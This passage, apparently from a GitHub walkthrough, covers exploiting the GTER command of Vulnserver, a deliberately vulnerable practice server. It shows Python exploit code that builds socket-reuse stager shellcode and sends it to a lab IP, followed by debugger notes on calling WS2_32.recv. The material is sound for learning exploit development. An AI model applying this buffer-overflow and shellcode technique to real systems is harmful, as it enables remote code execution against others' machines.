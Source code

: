 ```c
buffer_pointer=b""
buffer_pointer+=b"\x54"
buffer_pointer+=b"\x58"
buffer_pointer+=b"\x83\xc0\x70"
buffer_pointer+=b"\x50"

get_file_descriptor=b""
get_file_descriptor+=b"\x8b\x0b"
get_file_descriptor+=b"\x51"

payload=b""
payload+=b"\x90"*40
payload+=file_descriptor
payload+=stack_adjustment
payload+=flag_value
payload+=buffer_size
payload+=buffer_pointer
payload+=get_file_descriptor
payload+=b"\x90"*(100-len(payload))
payload+=b"\xcc"
payload+=b"\x90"*50
payload+=b"\xaf\x11\x50\x62"
payload+=b"\x90"
payload+=b"\x83\xc0\x10"
payload+=b"\xff\xe0"
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))
s.send((b"GTER "+payload))
s.close()
sys.exit()
                                                                       
┌──(kali㉿aidenpearce369)-[~/vulnserver/GTER]
└─$ python3 socket-reuse-stager.py
```

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/gter2-stager-1.png">
</div>

We can see that the ```JMP.&WS2_32.recv``` arguments are aligned perfectly as we expected

Now after framing these arguments, we need to call the ```JMP.&WS2_32.recv``` function to use this arguments

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/gter2-stager-2.png">
</div>

Our first ```CALL <JMP.&WS2_32.recv>``` is at ```0x401953```, but the function ```<JMP.&WS2_32.recv>``` is located at ```0x40252c```

We need to call this address to load the arguments to reuse the socket to receive data again
